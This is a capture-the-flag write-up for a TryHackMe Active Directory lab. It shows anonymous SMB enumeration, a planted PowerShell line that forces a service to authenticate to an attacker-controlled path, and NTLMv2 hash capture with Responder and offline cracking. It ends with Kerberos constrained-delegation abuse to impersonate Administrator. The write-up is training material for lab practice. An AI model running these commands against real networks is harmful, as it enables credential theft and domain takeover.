




# Proxy

**Difficulty:** 🟢 Easy · **Room:** [TryHackMe ↗](https://tryhackme.com/room/proxychallenge)

Every request has to go through someone... but what if that someone is you? Route your way through an Active Directory environment, intercept what you shouldn't, and pull the strings from behind the proxy. Nothing gets through without your say.

---

## Reconnaissance

I started with an nmap scan:


SMB was open on port `445`, so I checked whether it allowed null sessions. It did, and I was able to list all the shares:

```bash
smbclient -L //TARGET_IP/ -N
```



Most of the shares were the usual Windows defaults, like `ADMIN$` and `C$`, but one stood out: `IT-Shared`. I logged into it:

```bash
smbclient //TARGET_IP/IT-Shared -N
```

There were three files in the share. I downloaded all of them with `get FILE_NAME` and went through each one.

**`IT-Credentials-Backup.txt`**
This contained passwords for `helpdesk.bob` and `it.admin`. The file also noted that both accounts were disabled.

**`IT-Onboarding-Checklist.txt`**

```
IT Department Onboarding Checklist
====================================
Welcome to the team!

1. Get VPN access from sysadmin
2. Request AD account
3. Install tools (see software list on intranet)
4. Review security policies

Automated Services
------------------
  File Scanner (svc.scanner)
    Runs every 2 minutes. Enumerates IT-Shared for new files to process.
    Uses Shell enumeration to inspect file metadata and icons.
    Contact sysadmin if files are not being processed.

  Database Backup (svc.mssql)
    Handles nightly MSSQL backups. Member of Backup Operators.
    Password rotated quarterly -- do not store locally.

Questions? Email helpdesk@ctf.local
```

This told me two more service accounts exist: `svc.scanner` and `svc.mssql`. The `File Scanner` service looked especially useful, since it automatically processes new files dropped into the share.

**`IT-Portal.html`**
This file contained the source code of the IT portal and revealed some useful details:

- Machines: `SVC02` and `DC01`
- Domain: `ctf.local`
- Users: `j.smith`, `svc.helpdesk`

---

## Credentials for `svc.scanner`

The onboarding notes said `File Scanner` checks `IT-Shared` for new files every couple of minutes, and that it looks at file metadata and icons while doing so. That gave me an idea: if it inspects icons, maybe I could get it to reach out to a file path I control.

I uploaded a small PowerShell script, `test.ps1`, to `IT-Shared`:

```powershell
Test-Path "\\ATTACKER_IP\TEST\test.ico"
```

This just checks whether `\TEST\test.ico` exists on my machine. The idea was that when `File Scanner` runs as `svc.scanner` and processes this file, it would try to authenticate to that path — and in doing so, send its NTLMv2 hash my way.

I ran Responder to catch it:

```bash
sudo responder -I tun0
```

Sure enough, I captured an NTLMv2 hash for `svc.scanner`. From there, I cracked it offline with John the Ripper:

```bash
john --format=netntlmv2 hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

This gave me the plaintext password for `svc.scanner`:



With valid credentials, I ran BloodHound to map out the domain:

```bash
bloodhound-python -u svc.scanner -p 'REDACTED' -d ctf.local -ns TARGET_IP -c All --zip
```

After uploading the resulting `.zip` into BloodHound, one finding stood out:



`svc.scanner` had the `AllowedToDelegate` property set on `cifs/DC01`. That raised the question of whether it could be used to delegate as `Administrator` — so I tested it.
## Escalation to Administrator

I requested a Kerberos service ticket, impersonating `Administrator`:

```bash
getST.py -spn cifs/DC01.ctf.local -impersonate Administrator ctf.local/svc.scanner:'REDACTED' -dc-ip MACHINE_IP
```

Then set it as my active ticket:

```bash
export KRB5CCNAME=Administrator@cifs_DC01.ctf.local@CTF.LOCAL.ccache
```

And used it to authenticate as `Administrator`:

```bash
smbexec.py ctf.local/Administrator@DC01.ctf.local -no-pass -k -target-ip MACHINE_IP
```

This worked, and gave me the admin flag:



---

## Kill Chain

This box was mostly about following one small clue after another. An anonymous SMB session led to an oddly named share, and that share held internal documentation that explained exactly how an automated service worked — which was the mistake that mattered most. Because `File Scanner` inspected file icons automatically, it could be tricked into authenticating to a path I controlled, which handed me its password hash. From there, a domain permission (`AllowedToDelegate`) that shouldn't have been trusted so freely let me impersonate `Administrator` outright.

`Anonymous SMB → svc.scanner (via NTLM relay/crack) → Administrator (via constrained delegation)`

- **Initial Access:** Anonymous SMB session → readable `IT-Shared` share → internal documentation on automated services
- **Credential Theft:** Abused `File Scanner`'s icon-lookup behavior → captured `svc.scanner`'s NTLMv2 hash with Responder → cracked with John the Ripper
- **Privilege Escalation:** `svc.scanner`'s `AllowedToDelegate` right on `cifs/DC01` → forged a service ticket impersonating `Administrator` → full domain admin access

The whole chain came down to **information that shouldn't have been public and a service account trusted with more delegation rights than it needed** — neither issue was especially complex on its own, but together they led straight to Administrator.

> Thanks for reading!